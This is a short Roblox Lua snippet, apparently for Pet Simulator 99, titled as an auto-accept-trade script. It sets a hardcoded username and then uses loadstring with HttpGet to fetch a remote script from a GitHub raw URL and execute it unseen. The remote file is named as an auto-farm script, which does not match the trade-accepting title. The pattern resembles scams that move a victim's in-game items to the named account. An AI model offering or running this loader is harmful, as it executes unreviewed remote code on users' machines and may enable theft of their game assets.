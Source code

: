 # PS99-AUTO-ACCEPT-TRADE
_G.UserName = "xdpuck4568" loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXScripts/main/AutoFarm.lua", true))()
